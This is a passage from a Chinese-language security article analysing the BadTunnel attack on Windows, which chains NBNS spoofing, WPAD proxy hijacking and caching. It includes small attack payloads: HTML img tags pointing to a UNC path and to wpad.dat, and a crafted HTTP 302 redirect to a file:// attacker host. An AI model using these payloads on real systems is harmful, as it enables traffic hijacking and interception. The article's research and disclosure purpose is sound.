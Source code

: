 ![](http://drops.javaweb.org/uploads/images/398e9a574f6b94a23c98f7db59bb5aaa50698575.jpg)

也就是说，一个NBNS NBSTAT query同时解决了第一个问题和第二个问题。而第三个问题就更容易解决了。我们既然能在网页中嵌入`<img src=”\\10.10.10.10\BadTunnel”>`，当然也可以同时嵌入：

```
<img src=”http://WPAD/wpad.dat”>

```

这样，我们可以控制对“WPAD”的NBNS NBquery的发出时间。也就可以及时返回伪造的回应。最终系统会将我们伪造的`http://WPAD/wpad.dat`存入WEB缓存。之后当系统真正试图获取并解析`http://WPAD/wpad.dat`来设置代理服务器时，会使用WEB缓存中的这个。而至少对Windows 7来说，伪造的`http://WPAD/wpad.dat`会像其它被缓存的WEB资源一样，即使关机重启动，仍然有效。

即使不考虑WEB缓存，NBNS也有自己的缓存机制。只要成功实现一次NBNS Spoofing，伪造的结果会被NBNS缓存10分钟：

![](http://drops.javaweb.org/uploads/images/f0d052581a5941e135d007837abe8ed0aa7a2fdf.jpg)

此后10分钟内系统本身也会试图去解析“WPAD”进而访问`http://WPAD/wpad.dat`来设置代理，但获得的将会是缓存中这个伪造的结果。而攻击者在一旦通过WPAD劫持到用户的流量，可以定时对某些HTTP请求返回302重定向，实现循环BadTunnel攻击，保持劫持状态：

```
HTTP/1.1 302 Found
Content-Type: text/html
Location: file://10.10.10.10/BadTunnel
Content-Length: 0

```

0x03 总结
=======

* * *

本文所描述的BadTunnel攻击，是一个严重的安全问题。但当我们试图寻找问题根源时，却发现这并不容易。BadTunnel攻击能得以实现，至少依赖于以下这些特性：

1、 UDP协议无会话；

2、 广播请求可接受网段外回应。

3、 Windows默认开启WPAD。

4、 Windows文件处理API默认支持UNC path。

5、 Windows访问UNC path时，连接139和445端口失败后会发起NBNS NBSTAT query。

6、 NBNS无论作为服务端还是客户端，都使用同一个端口号。

7、 NBNS Transaction ID递增而不是随机。

8、 NBNS NBSTAT query和NBNS NB query共享同一个计数器。

9、 系统在实现WPAD时也使用WEB缓存机制和NBNS缓存机制。

以上所有设计特性，单独来看，几乎都没问题，甚至是必需的。我们当然不能认为UDP协议无会话是个漏洞。即使NBNS Transaction ID非随机这一点，也很难说是安全问题。因为NBNS NB这套机制原本设计用于内网，NBNS NB query以广播包形式发出，内网任何机器都能收到。但是，所有这些单独看起来都没问题的特性，在协同工作时，就形成了一个巨大的安全问题。那么，我们应该如何去发现下一个BadTunnel?

0x04 防御建议
=========
